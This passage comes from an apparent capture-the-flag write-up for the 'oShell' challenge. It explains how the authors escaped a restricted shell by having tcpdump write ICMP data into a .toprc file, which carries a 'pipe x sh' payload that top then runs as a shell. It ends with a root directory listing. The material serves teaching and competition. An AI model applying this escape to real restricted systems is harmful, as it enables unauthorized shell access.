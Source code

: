 ### Break Out Part 2 - Shell City  
Now we can concerntrate on getting a shell. One option is to use the `post-
rotate` command feature in `tcpdump`, but we investigated this and found the
use of `top` would be simpler due to it executing our process already attached
to our TTY.

The `top` command will read configuration from `~/.toprc`. This allows us to
specify arbitrary commands for `top` to execute through the "Inspect"
function. This is discussed in the [top GTFOBins
page](https://gtfobins.github.io/gtfobins/top/).

To begin, we need the full, expanded path to the `.toprc` file, which we can
get by launching `top` and pressing <kbd>w</kbd>:  
```  
Wrote configuration to '/home/oShell//.toprc'  
```

The payload we decided on was:  
```

pipe    x       sh 1>&0

```

This will simply execute a shell after we choose the `x` inspection option in
`top`. It's important to note:

* The tab characters before and after `x` are required and cannot be spaces.  
* The newlines before and after the payload are also required so that it doesn't have extra bytes around it.

### Break Out Part 3 - All together now  
Putting this together, we can run our ICMP modification script on a server we
control. We can run `tcpdump -w /home/oShell/.toprc -s 500 icmp` to capture
ICMP packets and write them to our `.toprc` file. Lastly, we can run `ping
[our-server-ip] -c 1` to send a packet and wait for the response.

This writes a strange, but still valid, file that `top` can interpret as a
configuration. Now we open `top`, press <kbd>shift</kbd> + <kbd>y</kbd> to
inspect a process, <kbd>return</kbd> to select the default PID, then select
<kbd>x</kbd> (the name of the command we used in our payload), and press
<kbd>return</kbd> a final time. We now have an interactive shell!

The formatting isn't great, but we can type `ls` to see the directory output
in `/`:  
```sh  
/ $ ls -lah  
total 908  
drwxr-xr-x    1 root     root        4.0K Nov 28 04:21 .  
drwxr-xr-x    1 root     root        4.0K Nov 28 04:21 ..  
-rwxr-xr-x    1 root     root           0 Nov 28 04:21 .dockerenv  
drwxr-xr-x    1 root     root        4.0K Nov 27 19:58 bin  
drwxr-xr-x    5 root     root         340 Nov 28 04:21 dev  
-r--r--r--    1 1002     1002          31 Nov 28 04:21 enable.secret  
drwxr-xr-x    1 root     root        4.0K Nov 28 04:21 etc  
-r--------    1 root     root          35 Nov 26 10:44 flag  
drwxr-xr-x    1 root     root        4.0K Nov 27 19:58 home  
drwxr-xr-x    1 root     root        4.0K Nov 27 19:58 lib  
drwxr-xr-x    5 root     root        4.0K Mar  6  2019 media  
drwxr-xr-x    2 root     root        4.0K Mar  6  2019 mnt  
-rwxrwxr--    1 root     root        3.8K Nov 25 10:23 oShell.py  
dr-xr-xr-x 1004 root     root           0 Nov 28 04:21 proc  
-rwsr-sr-x    1 root     root      825.4K Nov 19 10:54 readflag  
drwx------    2 root     root        4.0K Mar  6  2019 root  
drwxr-xr-x    2 root     root        4.0K Mar  6  2019 run  
drwxr-xr-x    1 root     root        4.0K Nov 27 19:58 sbin  
drwxr-xr-x    3 root     root        4.0K Nov 27 19:58 share  
```